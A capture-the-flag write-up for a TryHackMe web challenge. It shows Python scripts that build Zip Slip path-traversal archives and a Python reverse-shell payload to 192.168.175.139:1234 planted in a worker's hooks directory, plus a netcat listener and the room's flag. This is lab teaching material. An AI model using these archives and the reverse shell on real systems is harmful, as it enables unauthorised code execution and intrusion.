









# [The Hollow Shell](https://tryhackme.com/room/hh-thehollowshell-ddb582ac)

 - Day 10 of Hacker Holidays. Today, we are dealing with a web-based challenge. 
 
 

- Start the machine; we get a URL. Visit the URL in the browser.
- Start your web proxy too, so it records every request while you navigate the site.
- Well, when I try to visit the URL, I get nothing, so I decided to perform an Nmap scan.

 

 - Found open ports in the Nmap scan.
 ```
 nmap -sC -sV -p 22,5000 10.48.164.215                  
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 10:22 +0530
Nmap scan report for 10.48.164.215
Host is up (0.094s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6f:b3:c2:c3:23:6e:fc:f4:ca:96:62:be:eb:2b:8b:03 (ECDSA)
|_  256 69:18:6d:18:1a:ad:af:f6:2b:e2:d3:36:56:eb:1a:85 (ED25519)
5000/tcp open  http    Gunicorn
| http-title: Byte Lotus \xE2\x80\x94 Room Service
|_Requested resource was /login
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds
```
- A web server is running on port 5000.



- It is a login portal, and the source code revealed the starter credentials.




- The site has an upload functionality. It takes a ZIP archive, and that ZIP must contain a shell.json manifest listing a name and a set of assets, such as images or stylesheets, etc.
- So, for initial testing, I created a JSON file called shell.json.
```
{
	"name":"test",
	"assets":[]
}
```
```
zip test.zip shell.json 
  adding: shell.json (stored 0%)
```
- Now upload the test.zip.



- The file is uploaded to **shells/4608a8ce7f95/**.



- Our shell.json was uploaded successfully. 
- Well, the next thing I want to try is whether I can perform path traversal to get arbitrary file write access to another directory. This is called the [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability) vulnerability.
- To test this, I want to create an archive that has a path traversal sequence (../), but normal ZIP tools block this, so we have to write our own code for this.
```
cat > zipslip.py << 'EOF'
import zipfile
zf = zipfile.ZipFile('zipslip.zip', 'w')
zf.writestr('shell.json', '{"name": "testing zipslip", "assets": []}')
zf.writestr('../zippyslippy.txt', 'spiderman')
zf.close()
EOF
python3 zipslip.py
```

- After executing the above Python code, we now have a zipslip.zip file. Let's upload it to see whether we can perform a Zip Slip attack or not.



- As we can see, our zippyslippy.txt has been uploaded to the shells directory, but I can't read the file; it says the file was not found. Let's try to write to a directory like /static.
```
cat > zipslip.py << 'EOF'
import zipfile
zf = zipfile.ZipFile('zipslip.zip', 'w')
zf.writestr('shell.json', '{"name": "testing zipslip", "assets": []}')
zf.writestr('../../static/zippyslippy.txt', 'spiderman')
zf.close()
EOF

python3 zipslip.py
```
- After uploading the ZIP file, try to visit the /static/zippyslippy.txt endpoint. We successfully performed a Zip Slip attack.



- Now what? We have to find a way to turn this file-write vulnerability into RCE. How do we do that?


- If we closely observe the description, it says the shell may include automation hooks. The automation hooks are automatically executed by the background worker. If we are able to find the directory that is watched by the worker, and if we place a malicious Python file (as the backend is using Python) into that directory, the worker may execute it.
- It's time to put our theory to the test.
- **Finding the directory watched by the worker for automation hooks. I tried /hooks, and it worked.**
- I had my JSON and malicious Python script ready.
```
cat shell.json 
{
	"name":"RCE",
	"assets":[],
	"hooks":[]
}%                                                   
```
```
 cat rev.py 
import os
import pty
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.175.139", 1234))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("/bin/bash")%                          
```
- Now the Python script to make a ZIP file.

```
cat > RCE.py << 'EOF'
import zipfile
zf = zipfile.ZipFile('RCE.zip', 'w')
zf.writestr('shell.json', open('shell.json').read())
zf.writestr('../../hooks/rev.py', open('rev.py').read())
zf.close()
EOF

python3 RCE.py
```                            
- Now upload the ZIP file. Before that, start a Netcat listener.
```
nc -lnvp 1234
```
- After a few seconds, I got the reverse shell.
```
~/TryHackMe/Hackers_holiday ❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.175.139] from (UNKNOWN) [10.49.156.113] 34474
roomservice@tryhackme-2404:/var/www/conch$ 
```
- In the user's home directory, you can find flag.txt

```
cat flag.txt 
THM{z1p_sl1pp3d_1nt0_a_sh3ll}
```
**Flag: THM{z1p_sl1pp3d_1nt0_a_sh3ll}
